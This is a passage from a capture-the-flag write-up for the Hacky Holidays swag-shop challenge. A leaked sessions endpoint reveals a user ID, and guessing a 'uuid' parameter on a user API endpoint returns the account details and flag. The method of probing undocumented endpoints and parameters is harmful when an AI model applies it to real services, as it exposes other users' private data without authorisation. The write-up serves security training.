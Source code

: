 Result:
```JSON
{"user":null,"cookie":"YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="}
{"user":null,"cookie":"ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="}
{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
{"user":null,"cookie":"MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="}
{"user":null,"cookie":"M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MTg4MjI3ZGRkMTllZTM2ZDkxMGVlNWEwNmZiZWFkZjZhODg4MDY3ODlmZGRhYTM1Y2IyMGVhMjA1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="}
{"user":null,"cookie":"MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0MmZlZjMwYmJjZmQ4ZTU0Y2YxYzVmZTM1N2Q1ODY2YjFkZmFiNmI5ZjI1M2M2MDViNjA0ZjFjNDVkNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="}
{"user":null,"cookie":"MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMmI5OTcyMDlkNTJhZTc4YjUxZjIzN2Q4NmRjNjg2NmU1MzVlOWEzOTE5NWYyOTcwNmJlZDIyNDgyMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="}
{"user":null,"cookie":"OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4NDhhODRmNjI0NDRjZTdlZTg0ZTUwNzZmZDdkYTJjN2IyODY5YjcxZmI5ZGRiYTgzZjhiZDViOWZjMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="}
```

Aha, a valid user by the looks of it - `C7DCCE-0E0DAB-B20226-FC92EA-1B9043`! But it doesn't give us a proper username, and the cookie property seems to decode into a hash... Maybe we can use the user id? And since it so sincerely tells us "user", maybe there is a `https://hackyholidays.h1ctf.com/swag-shop/api/user` endpoint?
{F1138476}

Look at that! Now, what might the actual parameter be? user, id, userid, username? Nope:
{F1138478}

Thinking about it, the user"name" returned by `https://hackyholidays.h1ctf.com/swag-shop/api/sessions` does look more like a UUID than a name or regular id... maybe `uuid` will work? 
[Link](https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043)
{F1138479}

```JSON
{
	"uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
	"username": "grinch",
	"address": {
		"line_1": "The Grinch",
		"line_2": "The Cave",
		"line_3": "Mount Crumpit",
		"line_4": "Whoville"
	},
	"flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

Sweet, the fouth flag `flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}`! Unfortunately, it doesn't seem like it will let us buy a Snow Ball Launcher - better stop the Grinch and ask Santa for one!

## /secure-login - the fifth flag
We are greeted with a page that fits the location to a T.
{F1138480}
